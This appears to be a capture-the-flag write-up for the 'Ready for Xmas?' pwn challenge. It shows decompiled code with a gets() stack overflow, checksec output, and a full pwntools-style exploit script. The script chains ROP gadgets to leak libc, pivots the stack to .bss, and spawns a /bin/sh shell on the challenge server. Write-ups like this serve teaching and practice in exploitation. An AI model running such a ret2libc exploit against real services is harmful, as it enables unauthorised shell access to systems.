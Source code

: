 # Ready for Xmas? [85]
Are you ready for aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/bin/shawhkj\xffwaa ?

**Target**: nc challs.xmas.htsp.ro 2001

**Author**: Th3R4nd0m

**Files**: ready_for_xmas.zip

#### The python library used here is [`pwnscripts`](https://github.com/152334H/pwnscripts)
## Solving
important stuff in decompiler:
```c
int system(const char *s) {
  return system(s);
}
void set_rdx_as_r15() {
    // this sets rdx = r15
}
int main() {
  char haystack[64]; // [rsp+0h] [rbp-40h] BYREF
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( has_main_occured )
    exit(0);
  memset(aCatFlag, 0, sizeof(aCatFlag));
  puts("Hi. How are you doing today, good sir? Ready for Christmas?");
  gets(haystack); // !!!! vuln !!!!
  if ( strstr(haystack, "sh") || strstr(haystack, "cat") )
    exit(0); // if haystack contains these strings
  has_main_occured = 1;
  mprotect(&has_main_occured, 1uLL, 1);
  return 0;
}
```
checksec:
```python
[*] chall
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
This challenge was presumably designed with the idea of disabling mprotect with the inline assembly function. Or something. The `set_rdx_as_r15()` function is a little bit confusing, considering you can use ret2csu to set rdx without anything special.

I'm also not entirely sure what the point of having a `system()` function was; I just busted through the challenge with a ROP to `.bss` to ROP to libc's `/bin/sh`. 

```python
from pwnscripts import *
context.binary = 'chall'
context.libc_database = '../libc-database'
context.libc = 'libc.so.6'
NOWHERE = 0x601900
r = remote('challs.xmas.htsp.ro', 2001)
PAD = 0x48

R = ROP(context.binary)
R.raw(PAD*b'a')
R.puts(context.binary.got['gets'])
R.gets(NOWHERE)
R.migrate(NOWHERE)
r.sendlineafter('\n', R.chain())

context.libc.calc_base('gets', unpack_bytes(r.recvline(),6))
R = ROP(context.binary)
R.system(context.libc.symbols['str_bin_sh'])
r.sendline(R.chain())
r.interactive()
```
## Flag
`X-MAS{l00ks_lik3_y0u_4re_r3ady}`

